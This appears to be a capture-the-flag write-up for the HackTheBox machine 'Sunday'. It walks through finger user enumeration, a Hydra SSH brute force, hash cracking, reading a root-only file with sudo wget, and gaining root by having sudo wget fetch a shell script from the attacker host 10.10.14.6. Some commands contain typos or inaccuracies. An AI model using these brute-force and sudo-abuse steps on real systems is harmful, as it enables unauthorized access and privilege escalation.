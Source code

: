 Sunday without metasploit

![Sunday](https://user-images.githubusercontent.com/55708909/91526264-db8e9000-e920-11ea-8de4-c2507f4099ee.png)


Starting with nmap scan:

Nmap -sC -sV -T4 -A -O -oA Sunday -p- 10.10.10.76


I saw finger service ruuning and i know this service give info about logged in user.

![Sunday_finger](https://user-images.githubusercontent.com/55708909/91526816-1b09ac00-e922-11ea-8178-b6a72a650e6a.png)

Pentest monkey has an awesome script for finger service , here is the  link

wget https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl

Run it in order to know who logged into p.c. 

You need a good list for users and here is one from seclist github

wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/Names/names.txt

run these command and you will find appropriate users

![Sunday_finger_user](https://user-images.githubusercontent.com/55708909/91527570-a2a3ea80-e923-11ea-8177-96638e20536d.png)

i brute force  sssh and found password sunday

hydra -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 ssh -s 22022

logged into system.

![Sunday_backup](https://user-images.githubusercontent.com/55708909/91528293-0f6bb480-e925-11ea-9081-a40875c121bf.png)

john --wordlist=/usr/share/wordlists/rcokyou.txt hash.txt

password : cooldude!

![Sunday_user_flag](https://user-images.githubusercontent.com/55708909/91529213-85bce680-e926-11ea-88dc-c922dfa5bdc5.png)

![Sunday_root](https://user-images.githubusercontent.com/55708909/91529732-74280e80-e927-11ea-881e-62088329d171.png)


First i check the sudo right for sammy and found out he has wget right i remember it can print the output of any files even restricted ones

sudo /usr/bin/wget -i /root/root.txt

But i am greedy and want full control over p.c. so i combine both of sudo right for sunny and sammy

Prepare troll files with contents:

troll

#!/bin/bash

bash


Fire up the web browser and type following commnads:

sudo /usr/bin/wget -o /root/troll http://10.10.14.6/troll

and againg log into sysytem as sunny and type sudo /root/troll

you will be root

![Sunday_root](https://user-images.githubusercontent.com/55708909/91529732-74280e80-e927-11ea-881e-62088329d171.png)



